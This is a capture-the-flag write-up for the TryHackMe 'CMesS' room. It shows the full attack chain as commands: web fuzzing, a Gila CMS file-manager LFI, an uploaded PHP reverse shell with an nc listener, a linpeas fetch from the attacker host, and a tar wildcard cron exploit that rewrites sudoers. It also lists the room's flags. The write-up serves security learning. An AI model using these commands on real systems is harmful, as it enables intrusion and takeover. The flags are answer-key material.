 # CMesS - Medium

```shell
nmap -T4 -p- -A -v 10.10.222.241

sudo vim /etc/hosts
#map IP to cmess.thm

wfuzz -w /usr/share/wordlists/dirb/common.txt --hc 403,404 http://cmess.thm/FUZZ

sudo wfuzz -c -f sub-fighter -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
#this gives false results of 290 wordlength

sudo wfuzz -c -f sub-fighter -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 290

sudo vim /etc/hosts
#add dev.cmess.thm

searchsploit gila
#this gives us LFI exploit

#setup listener
nc -nvlp 4444

#we get reverse shell on visiting uploaded shell
#upgrade shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

#in attacker machine
python3 -m http.server

#in reverse shell
cd /tmp

wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

cat /opt/.password.bak
#get andre's password

ssh andre@10.10.222.241

cat user.txt

ls -la backup

cat /etc/crontab
#interesting crontab
#we can use tar wildcard char exploit

cd backup

echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh

echo "" > "--checkpoint-action=exec=sh privesc.sh"

echo "" > --checkpoint=1

sudo -l
#we can execute all commands as root now

sudo su

cat /root/root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 80 - http - Apache httpd 2.4.18

* The webpage on port 80 has the title 'Gila CMS'; we can enumerate the website for hidden directories.

* We have a login page at /login, but we do not have creds yet.

* We have other directories such as /admin, /author and /assets; maybe we can access them after login.

* We can add the IP to /etc/hosts and map it to cmess.thm, and try searching for subdomains.

* For vhost enumeration, we can choose wfuzz, and we filter responses with word length 290 as they are false positives.

* We get the 'dev' subdomain, so we can add it to our /etc/hosts file.

* Now, this subdomain contains a chat, which gives us the password "KPFTN_f2yxe%" for the user andre@cmess.thm

* We are able to login using these creds but this just takes us back to the home page.

* We can access /admin, and this takes us to the dashboard for Gila CMS, version 1.10.9

* Now, searching for an exploit for Gila CMS gives us a LFI exploit, following that we have the payload:

  ```http://cmess.thm/admin/fm/?f=src../../../../../../../../../WINDOWS/system32/drivers/etc/hosts```

* Using this payload, we get an option to upload files; we can upload a PHP reverse-shell file, setup listener, and activate reverse shell.

* The reverse-shell has been uploaded in the /assets folder, so we need to visit /assets/reverse-shell.php to get reverse shell.

* Now, we have shell as www-data; we can use linpeas to check for privesc.

* We get a file /opt/.password.bak, this contains password for andres; we can SSH using this password as andre.

* We have an interesting cronjob running, by root, and it runs the command ```tar -zcf``` to create a backup zip file with wildcard char.

* We can Google 'crontab tar wildcard' and we will get articles on how to exploit the given scenario.

* By moving to /backup directory and following the exploit, we can use 'sudo -l' to check commands we can execute - we can execute all commands as root.

```markdown
1. Compromise this machine and obtain user.txt - thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}

2. Escalate your privileges and obtain root.txt - thm{9f85b7fdeb2cf96985bf5761a93546a2}
```
